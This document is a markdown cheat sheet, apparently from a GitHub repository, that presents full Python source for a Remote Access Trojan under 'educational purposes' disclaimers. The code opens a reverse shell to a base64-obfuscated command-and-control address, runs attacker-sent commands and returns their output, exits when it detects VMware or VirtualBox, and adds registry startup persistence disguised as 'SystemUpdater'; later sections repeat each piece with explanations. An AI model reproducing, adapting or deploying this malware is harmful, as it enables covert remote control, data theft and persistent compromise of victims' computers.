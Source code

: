 > ⚠️ **Disclaimer**: This code is for educational purposes only. Use only in a secure, isolated lab environment with proper authorization. Unauthorized use or deployment of malware is illegal and unethical.

# Remote Access Trojan (RAT) Cheat Sheet (For Educational Purposes)

This cheat sheet details a basic **Python-based Remote Access Trojan (RAT)**. A RAT enables a remote attacker to gain control of a compromised machine, providing the ability to execute commands, exfiltrate data, or install additional payloads.

---

## RAT Overview

A **RAT** is designed to:
- **Establish a Remote Connection**: Connect back to an attacker's server to receive commands.
- **Receive Commands**: Execute shell commands or run scripts as instructed by the attacker.
- **Send Back Data**: Return results to the attacker's server, making it a two-way communication channel.

---

## Key Features in This RAT

1. **Connection Establishment**: Automatically connects back to a specified C2 server.
2. **Command Execution**: Runs system commands sent by the attacker.
3. **Anti-Analysis Evasion**: Checks for sandbox environments and includes a delay to evade detection.
4. **Automatic Dependency Installation**: Installs required Python modules on the compromised machine.
5. **Persistence**: Adds the RAT as a startup item to retain access across reboots.

---

## Advanced Python RAT Code

This code includes automatic dependency checks, stealth techniques, and persistence mechanisms. The RAT listens for incoming commands, executes them, and sends the results back to the attacker.

### Full RAT Code

```python
import os
import sys
import socket
import subprocess
import time
import ctypes
import base64

# Automatically check and install dependencies
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])

# Ensure required modules are installed
install_module("requests")
import requests

# C2 server details (encoded for obfuscation)
C2_SERVER = base64.b64decode("MTkyLjE2OC4xLjEwOjQ0NDQ=").decode('utf-8')  # Replace with actual IP:port (e.g., "192.168.1.10:4444")

# Virtual environment check
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check

# Anti-sandbox delay
time.sleep(10)

# Function to add persistence
def add_persistence():
    try:
        key = r"Software\Microsoft\Windows\CurrentVersion\Run"
        value_name = "SystemUpdater"
        rat_path = os.path.realpath(sys.argv[0])
        ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, rat_path)
        print("[*] Persistence achieved via registry key.")
    except Exception as e:
        print(f"[!] Failed to add persistence: {e}")

# Define the RAT connection and command execution
def rat():
    # Exit if a virtual environment is detected
    if is_virtual_environment():
        print("[!] Virtual environment detected. Exiting.")
        sys.exit(1)
    
    # Add persistence
    add_persistence()

    # Main connection loop
    while True:
        try:
            # Connect to C2 server
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            server_ip, server_port = C2_SERVER.split(":")
            sock.connect((server_ip, int(server_port)))
            
            # Notify connection success
            sock.send(b"[+] Connection Established\n")
            
            while True:
                # Receive command from C2 server
                command = sock.recv(1024).decode("utf-8")
                if command.lower() == "exit":
                    break
                
                # Execute command and send results back
                output = subprocess.getoutput(command)
                sock.send(output.encode("utf-8") + b"\n")
            
            sock.close()
        except Exception as e:
            print(f"[!] Connection error: {e}")
            time.sleep(5)  # Reconnect delay

# Run the RAT
if __name__ == "__main__":
    rat()
```

---

## Explanation of Key Components

### 1. **Automatic Dependency Installation**

The `install_module()` function ensures that required Python modules are installed, checking for missing dependencies and installing them automatically with `pip`.

```python
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
```

### 2. **Obfuscated C2 Server Address**

The IP address and port of the command-and-control (C2) server are Base64 encoded to evade static analysis, then decoded at runtime.

```python
C2_SERVER = base64.b64decode("MTkyLjE2OC4xLjEwOjQ0NDQ=").decode('utf-8')  # Replace with actual IP:port
```

### 3. **Virtual Environment Detection**

To detect and avoid sandboxes or virtual environments, the `is_virtual_environment()` function checks for VMware or VirtualBox indicators in `systeminfo`.

```python
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check
```

### 4. **Persistence Mechanism**

The RAT uses the Windows registry to add itself to startup, achieving persistence so it will execute every time the system boots.

```python
def add_persistence():
    key = r"Software\Microsoft\Windows\CurrentVersion\Run"
    value_name = "SystemUpdater"
    rat_path = os.path.realpath(sys.argv[0])
    ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, rat_path)
```

### 5. **Main RAT Functionality**

The `rat()` function establishes a connection to the C2 server, receives commands, executes them, and sends results back. If the connection drops, it attempts to reconnect after a short delay.

```python
def rat():
    while True:
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            server_ip, server_port = C2_SERVER.split(":")
            sock.connect((server_ip, int(server_port)))
            sock.send(b"[+] Connection Established\n")
            
            while True:
                command = sock.recv(1024).decode("utf-8")
                if command.lower() == "exit":
                    break
                
                output = subprocess.getoutput(command)
                sock.send(output.encode("utf-8") + b"\n")
            
            sock.close()
        except Exception as e:
            time.sleep(5)  # Reconnect delay
```

---

## Security and Legal Disclaimer

This RAT code is provided strictly for educational purposes and should only be used in an isolated lab environment with proper authorization. Unauthorized use of malware is illegal and unethical.

```
